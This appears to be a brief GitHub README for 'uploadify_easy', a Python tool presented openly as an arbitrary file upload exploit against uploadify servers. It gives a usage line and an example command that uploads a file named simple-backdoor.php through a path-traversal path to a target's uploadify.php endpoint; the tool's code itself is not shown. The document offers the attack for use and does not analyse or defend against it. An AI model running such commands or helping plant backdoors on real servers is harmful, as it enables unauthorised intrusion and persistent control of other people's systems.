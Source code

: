 # uploadify_easy
_exploit -> Arbitrary File Upload_

The purpose of this tool is to automate the upload process in case there is a utility on an uploadify server. It could be considered as an exploit since it allows you to upload files to any system path by writing to it.


## Usage
```python3 uploadify_easy.py File2Upload RemotePath TargetUrl```
### Example
``` python3 uploadify_easy.py simple-backdoor.php ../../../../../../../tmp/ http://<target>/administrator/js/uploadify/uploadify.php ```
